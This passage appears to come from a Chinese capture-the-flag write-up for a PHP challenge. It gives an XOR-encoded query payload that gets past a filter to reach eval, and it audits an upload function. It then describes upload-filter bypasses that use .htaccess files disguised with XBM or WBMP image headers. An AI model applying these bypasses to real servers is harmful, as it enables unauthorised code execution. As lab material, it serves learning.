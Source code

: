 ```
?_=${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=get_the_flag
就可以eval(get_the_flag());
```

审计上传文件函数

```php
function get_the_flag(){
    // webadmin will remove your upload file every 20 min!!!! 
    $userdir = "upload/tmp_".md5($_SERVER['REMOTE_ADDR']);
    if(!file_exists($userdir)){
    mkdir($userdir);
    }
    if(!empty($_FILES["file"])){
        $tmp_name = $_FILES["file"]["tmp_name"];
        $name = $_FILES["file"]["name"];
        $extension = substr($name, strrpos($name,".")+1);
    if(preg_match("/ph/i",$extension)) die("^_^"); 
        if(mb_strpos(file_get_contents($tmp_name), '<?')!==False) die("^_^");
    if(!exif_imagetype($tmp_name)) die("^_^"); 
        $path= $userdir."/".$name;
        @move_uploaded_file($tmp_name, $path);
        print_r($path);
    }
}

```

$_FILES name和tmp_name有什么区别

```
$_FILES[字段名][name]——保存的文件在上传者机器上的文件名，

$_FILES[字段名][tmp_name]——保存的是文件上传到服务器临时文件夹之后的文件名

一般我们应该从$_FILES[字段名][name]获取文件名、扩展名等信息，和程序规定的文件夹一起组装成为目标文件名，然后把临时文件$_FILES[字段名][tmp_name]移动过去。 
```

还过滤了ph的后缀，文件内容不能有`<?`，对于ph的后缀，想到了`.htaccess`和`.user.ini`文件，`.user.ini`需要在文件夹中有php文件，我们使用`.htaccess`

**exif_imagetype()** 读取一个图像的第一个字节并检查其签名。

开始想的是在文件前加一个`GIF89a`，但在`.htaccess`文件中直接用`GIF89a`无效，使用如下方法：

```
方法1：
#define width 1337
#define height 1337

方法2：
在.htaccess前添加x00x00x8ax39x8ax39(要在十六进制编辑器中添加，或者使用python的bytes类型)
x00x00x8ax39x8ax39 是wbmp文件的文件头
.htaccess中以0x00开头的同样也是注释符，所以不会影响.htaccess

```
